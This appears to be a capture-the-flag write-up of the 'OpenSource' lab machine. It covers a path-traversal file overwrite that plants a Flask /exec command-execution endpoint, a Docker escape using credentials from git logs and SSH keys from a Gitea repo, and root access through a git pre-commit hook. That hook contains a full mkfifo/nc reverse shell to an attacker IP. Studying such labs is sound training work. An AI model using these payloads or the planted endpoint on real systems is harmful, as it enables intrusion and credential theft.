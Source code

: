 # OpenSource

## Gaining Access

Nmap scan results:

<figure><img src="../../../.gitbook/assets/image (8) (1) (4).png" alt=""><figcaption></figcaption></figure>

Take note of port 3000, it will be important later!&#x20;

### Overwrite for RCE

This website was a file sharing application where we could upload files:

<figure><img src="../../../.gitbook/assets/image (5) (1) (3).png" alt=""><figcaption></figcaption></figure>

Interestingly, we were allowed to download the entire repository here:

<figure><img src="../../../.gitbook/assets/image (9) (2) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (5) (2).png" alt=""><figcaption></figcaption></figure>

The `source.zip` file also contained a `.git` repo that we could analyse later.

Since this looks like a Flask application, we can check the `views.py` file to view the endpoints that are accessible.

```python
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))
```

So this program would get a file via POST, and then upload it to the `uploads/` directory. The problem is, the `file_name` parameter is unsanitised, meaning that we could potentially use this to **overwrite the existing files**. With this knowledge, what we can do is add some more code to this views.py.

In this case, we can add an `/exec` endpoint who's function is to execute commands we send:

```python
@app.route('/exec')
def runcmd():
    return os.system(request.args.get('cmd'))
```

Then, we can attempt to upload this file onto the server. We would need to intercept the response and change the file name to `../../app/app/views.py`. Since the filename is simply appended at the back of `uploads/`, this would cause the new file to be put at `uploads/../../app/views.py`. The directories are based on the source code I downloaded.

When we intercept and change the name of the file, we would be able to access our new endpoint. We can confirm RCE through a simple ping command:

<figure><img src="../../../.gitbook/assets/image (36) (1) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

Then, we can gain a reverse shell via the `mkfifo` command into a Docker Container.

<figure><img src="../../../.gitbook/assets/image (61) (2).png" alt=""><figcaption></figcaption></figure>

## Docker Escape

Within this container, we can see other foreign addresses that are around:

<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (3).png" alt=""><figcaption></figcaption></figure>

172.17.0.1 was another address that was present on the host.

### .git Analysis

I couldn't find much from the container, so I went ahead with enumerating the git repository in hopes of finding some passwords when scanning through the logs.

By using `git log`, I was able to find some credentials for anotehr application elsewhere.

<figure><img src="../../../.gitbook/assets/image (38) (3) (2).png" alt=""><figcaption></figcaption></figure>

Earlier, we found port 3000 to be inaccessible from our host. From the docker however, it could be accessed. I downloaded `chisel` onto the container and forwarded port 3000.&#x20;

### Gitea&#x20;

When this port was accessed, it was a Gitea instance:

<figure><img src="../../../.gitbook/assets/image (57) (2).png" alt=""><figcaption></figcaption></figure>

Signing into Gitea with the credentials we found earlier works.

<figure><img src="../../../.gitbook/assets/image (1) (1) (8).png" alt=""><figcaption></figcaption></figure>

Notice that there's a home-backup repo, and within it are the user's SSH keys:

<figure><img src="../../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can then the SSH keys to gain access to the `dev01` user.

## Privilege Escalation

LinPEAS didn't reveal a lot to me, so I opted for `pspy64` to view the processes.

<figure><img src="../../../.gitbook/assets/image (40) (3).png" alt=""><figcaption></figcaption></figure>

I saw this process run by root:

<figure><img src="../../../.gitbook/assets/image (3) (1) (5).png" alt=""><figcaption></figcaption></figure>

Every minute or so, it seems that this git repository is being updated on the Gitea instance. Based on GTFOBins, **git hooks** can be abused here to execute any script we want.

### Git Hooks Abuse

To abuse this, first we need to create a quick script for a reverse shell.&#x20;

```bash
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 10.10.16.3 4444 > /tmp/f
```

Afterwards, we just need to name this script `pre-commit` and place it within the `~/.git/hooks` folder.

<figure><img src="../../../.gitbook/assets/image (17) (4) (1).png" alt=""><figcaption></figcaption></figure>

After a few minutes, a listener port should catch a shell:

<figure><img src="../../../.gitbook/assets/image (86) (1).png" alt=""><figcaption></figcaption></figure>
